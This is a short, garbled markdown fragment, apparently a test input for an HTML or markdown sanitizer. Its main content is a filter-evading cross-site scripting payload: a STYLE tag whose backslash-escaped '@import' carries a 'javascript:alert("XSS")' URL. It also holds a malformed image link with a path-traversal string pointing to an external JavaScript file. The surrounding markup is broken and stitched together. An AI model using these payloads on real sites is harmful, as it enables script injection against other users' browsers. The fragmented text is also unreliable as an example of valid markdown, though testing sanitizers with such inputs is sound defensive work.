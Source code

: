 ![

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>


](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
